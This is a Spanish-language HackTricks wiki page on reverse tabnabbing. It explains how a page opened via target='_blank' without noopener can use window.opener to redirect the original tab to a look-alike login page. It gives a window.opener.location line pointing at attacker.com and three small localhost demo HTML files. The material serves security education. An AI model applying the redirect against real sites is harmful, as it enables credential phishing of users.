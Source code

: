 <details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>


# Descripción

En una situación donde un **atacante** puede **controlar** el argumento **`href`** de una etiqueta **`<a`** con el atributo **`target="_blank" rel="opener"`** que va a ser clicada por una víctima, el **atacante** puede **apuntar** este **enlace** a una web bajo su control (un **sitio web** **malicioso**). Entonces, una vez que la **víctima hace clic** en el enlace y accede al sitio web del atacante, este **sitio web malicioso** podrá **controlar** la **página original** a través del objeto javascript **`window.opener`**.\
Si la página no tiene **`rel="opener"` pero contiene `target="_blank"` y tampoco tiene `rel="noopener"`** también podría ser vulnerable.

Una forma común de abusar de este comportamiento sería **cambiar la ubicación de la web original** a través de `window.opener.location = https://attacker.com/victim.html` a una web controlada por el atacante que **se vea como la original**, de modo que pueda **imitar** el **formulario de inicio de sesión** del sitio web original y pedir credenciales al usuario.

Sin embargo, ten en cuenta que como el **atacante ahora puede controlar el objeto ventana del sitio web original** puede abusar de él de otras formas para realizar **ataques más sigilosos** (¿quizás modificando eventos de javascript para extraer información a un servidor controlado por él?)

# Resumen

## Con enlace de retroceso

Enlace entre páginas padre e hijo cuando no se usa el atributo de prevención:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Sin enlace de retroceso

Enlace entre páginas padre e hijo cuando se usa el atributo de prevención:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Ejemplos <a href="#examples" id="examples"></a>

Crea las siguientes páginas en una carpeta y ejecuta un servidor web con `python3 -m http.server`\
Luego, **accede** a `http://127.0.0.1:8000/`vulnerable.html, **haz clic** en el enlace y observa cómo la **URL del sitio web original cambia**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Propiedades accesibles <a href="#accessible-properties" id="accessible-properties"></a>

En el escenario donde ocurre un acceso **cross-origin** (acceso entre diferentes dominios), las propiedades de la instancia de la clase JavaScript **window**, referenciadas por el objeto JavaScript **opener**, que pueden ser accedidas por un sitio malicioso se limitan a las siguientes:

- **`opener.closed`**: Esta propiedad se accede para determinar si una ventana ha sido cerrada, devolviendo un valor booleano.
- **`opener.frames`**: Esta propiedad proporciona acceso a todos los elementos iframe dentro de la ventana actual.
- **`opener.length`**: El número de elementos iframe presentes en la ventana actual es devuelto por esta propiedad.
- **`opener.opener`**: Una referencia a la ventana que abrió la ventana actual se puede obtener a través de esta propiedad.
- **`opener.parent`**: Esta propiedad devuelve la ventana padre de la ventana actual.
- **`opener.self`**: Esta propiedad proporciona acceso a la propia ventana actual.
- **`opener.top`**: Esta propiedad devuelve la ventana del navegador más superior.

Sin embargo, en casos donde los dominios son idénticos, el sitio malicioso obtiene acceso a todas las propiedades expuestas por la referencia del objeto JavaScript [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window).

# Prevención

La información de prevención está documentada en la [Hoja de trucos de HTML5](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

# Referencias

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)




<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
